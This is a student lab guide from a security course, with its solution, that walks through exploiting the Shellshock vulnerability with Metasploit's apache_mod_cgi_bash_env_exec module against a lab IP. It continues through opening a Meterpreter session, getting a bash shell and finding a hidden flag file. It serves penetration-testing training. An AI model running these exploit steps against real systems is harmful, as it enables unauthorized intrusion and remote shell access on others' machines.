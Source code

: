 ## Student Guide: Attacking Shellshock with Metasploit 
 
 The goal of this activity was to practice using the Metasploit framework to exploit Shellshock.

---
 
1. Type the command that launches Metasploit:
 
      - `msfconsole`
 
   ![Meta 1](../../Images/META_1.png)
 
2. Type the command that performs a search for the `shellshock` exploit module:
 
   - `search shellshock`
 
   ![Meta 2](../../Images/META_2.png)
 
3. Type the command that loads the `exploit/multi/http/apache_mod_cgi_bash_env_exec` module:
 
   - `use exploit/multi/http/apache_mod_cgi_bash_env_exec`
 
4. Type the command that shows the module options:
 
   - `show options`
 
   ![Meta 3](../../Images/META_3.png)
 
5. Now that the `exploit/multi/http/apache_mod_cgi_bash_env_exec` module is loaded, configure the module's target using the victim's IP address and specify which MSF exploit module to use.
 
   - Type the command that sets the `RHOSTS` option to the given target's IP address:
 
      - `set RHOSTS 192.168.0.21`
 
   - Type the command that sets the `TARGETURI` path to use the exploit module `/cgi-bin/vulnerable`:
 
      - `set TARGETURI /cgi-bin/vulnerable`
  
 6. Type the command that runs the exploit.
 
      - `run` or `exploit`
 
7. A Meterpreter session should now be open. 
   - Try to locate the hidden `flag` file on the exploited machine. 
   - **Hint** We'll cover this more in class next time, but try using Meterpreter's `shell` command to gain a **bash shell** into the victims machine.
   
`Solution:`

There are a few different to locate the locate the hidden flag. One of the easiest ways to locate the flag is by using the meterpreter's built in `shell` command to get a bash shell into the victims machine. From there, you can navigate through the different directories and use the `find` command to locate the flag. 
- Run: `shell` to get the shell command. 
- Run: `cd /` to the current directory to the root directory. 
- Run: `find . -iname flag` to find the flag file. 

You'll find the flag file in the `/var/www/secrets` directory. 

 
   ![Meta 4](../../Images/META_4.png)
   
____
  
&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
